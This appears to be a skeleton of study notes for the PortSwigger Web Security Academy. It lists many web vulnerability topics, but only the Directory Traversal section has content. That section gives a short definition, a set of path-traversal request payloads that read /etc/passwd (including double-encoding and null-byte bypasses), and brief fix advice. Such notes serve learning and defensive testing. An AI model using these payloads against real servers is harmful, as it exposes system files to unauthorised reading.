 # PortSwigger Web Academy

- [PortSwigger Web Academy](#portswigger-web-academy)
  - [SQL Injection](#sql-injection)
  - [Authentication](#authentication)
  - [Directory Traversal](#directory-traversal)
    - [Summary](#summary)
    - [Fix](#fix)
  - [Command Injection](#command-injection)
  - [Business Logic Vulnerabilities](#business-logic-vulnerabilities)
  - [Information Disclosure](#information-disclosure)
  - [Access Control](#access-control)
  - [File Upload Vulnerabilities](#file-upload-vulnerabilities)
  - [Server-Side Request Forgery SSRF](#server-side-request-forgery-ssrf)
  - [XXE Injection](#xxe-injection)
  - [Cross Site Scripting XXS](#cross-site-scripting-xxs)
  - [Cross Site Request Forgery CSRF](#cross-site-request-forgery-csrf)
  - [Cross Origin Resource Sharing CORS](#cross-origin-resource-sharing-cors)
  - [Clickjacking](#clickjacking)
  - [DOM Based Vulnerabilities](#dom-based-vulnerabilities)
  - [WebSockets](#websockets)
  - [Insecure Deserialization](#insecure-deserialization)
  - [Server Side Template Injection SSTI](#server-side-template-injection-ssti)
  - [Web Cache Poisoning](#web-cache-poisoning)
  - [HTTP Host Header Attacks](#http-host-header-attacks)
  - [HTTP Request Smuggling](#http-request-smuggling)
  - [OAuth Authentication](#oauth-authentication)
  - [JWT Attack](#jwt-attack)
  - [Prototype Pollution](#prototype-pollution)

## SQL Injection

## Authentication

## Directory Traversal

<https://portswigger.net/web-security/file-path-traversal>

### Summary

Directory traversal (also known as file path traversal) is a web security vulnerability that allows an attacker to read arbitrary files on the server that is running an application.

<https://gchq.github.io/CyberChef/>

```bash
# Most basic case
GET /image?filename=../../../../../../etc/passwd HTTP/2
GET /image?filename=/etc/passwd HTTP/2

# Simple bypasses
GET /image?filename=//....//....//....//etc//passwd HTTP/2
# Double URL encoding
GET /image?filename=%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Fpasswd HTTP/2
# Null byte to bypass extension check
GET /image?filename=../../../../../../etc/passwd%00.jpg HTTP/2
```

### Fix

- Validate user input
- Only allow execution from canonical root directory

## Command Injection

## Business Logic Vulnerabilities

## Information Disclosure

## Access Control

## File Upload Vulnerabilities

## Server-Side Request Forgery SSRF

## XXE Injection

## Cross Site Scripting XXS

## Cross Site Request Forgery CSRF

## Cross Origin Resource Sharing CORS

## Clickjacking

## DOM Based Vulnerabilities

## WebSockets

## Insecure Deserialization

## Server Side Template Injection SSTI

## Web Cache Poisoning

## HTTP Host Header Attacks

## HTTP Request Smuggling

## OAuth Authentication

## JWT Attack

## Prototype Pollution
